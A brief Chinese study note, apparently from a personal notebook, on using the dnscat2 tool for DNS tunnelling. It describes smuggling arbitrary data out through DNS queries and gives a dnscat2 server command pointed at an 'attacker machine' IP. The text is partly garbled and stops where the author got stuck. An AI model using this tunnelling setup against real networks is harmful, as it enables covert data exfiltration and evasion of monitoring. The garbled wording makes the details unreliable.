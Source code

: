 ### 使用 DNScoat2 来扩展dns隧道机制
工具链接：https://github.com/iagox86/dnscat2
主要用途 ：借助dns隧道机制 俩进行数据传输
原理如下：本质上 隧道中的流量数据的传输是一个 本地域之间的dns服务器解析传输的过程，但是如果我们把它放到外网服务器中，这样自会导致 本地的dns解析的是偶 会尝试连接外部服务器 所以我们可以补货这些数据并且解析，可以偷摸传输任何数据，并且可以加密并且 会传输ddns对扫 
借助dns这个隧道工具搭建流量工具来获取大量信息 
![[Pasted image 20241112162019.png]]
其github上面已经写好详细的工具配置等信息内容，静待发掘
然后 使用的命令如下：
	`sudo ruby dnscat2.rb --dns host=攻击机的ip地址，port= ，domain= 域内的自定义名字.他是哪个域 --no-cache`
	![[Pasted image 20241112162719.png]]
	为啥关掉--no-cache 呢  如果不关闭的话 我们无法保证dns流量信息能成功传输到对面，因为他有时候会启动cahche中的内容造成一定的延迟传输可能会有误差
	xfreedep 进不去 所以导致 现在停滞  

















